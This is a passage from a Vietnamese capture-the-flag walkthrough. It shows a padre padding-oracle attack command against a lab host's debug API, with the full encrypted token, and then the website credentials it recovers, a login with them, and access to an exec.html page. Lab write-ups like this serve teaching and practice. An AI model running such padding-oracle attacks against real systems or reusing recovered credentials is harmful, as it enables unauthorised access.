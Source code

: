 - Sau khi download thành công, xây dựng payload với những thông tin của target.

```bash
padre \
-u "http://10.10.171.105:8080/api/debug/$" \
-e lhex \
-err "Decryption error" \
"39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4"
```
- Đợi cho tool chay, thành công lấy được thông tin xác thực của trang web : `stefan1197:ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599`

![HoangVu](Images/12.png)

![HoangVu](Images/14.png)

- Đăng nhập vào form login của trang web bằng thông tin lấy được ở trên.

![HoangVu](Images/15.png)

- Khi này đã có thể truy cập vào `exec.html` 
